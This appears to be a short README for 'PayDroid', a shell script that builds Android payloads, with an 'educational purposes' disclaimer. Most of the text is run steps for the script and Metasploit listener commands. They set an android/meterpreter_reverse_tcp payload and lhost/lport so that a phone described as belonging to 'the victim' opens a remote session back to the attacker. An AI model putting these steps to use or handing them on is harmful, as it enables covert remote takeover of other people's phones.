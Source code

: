 PayDroid is a very simple tool made for educational purposees
So please don't use it for any malecious activity

Author = Anil Shrestha

uses
- cd PayDroid
- chmod +x PayDroid.sh
- ./PayDroid.sh

After sending the payload today the victim and starting the Listner
- set payload android/meterpreter_reverse_tcp
- set lhost your_ip
- set lport port_you_choosed
- exploit

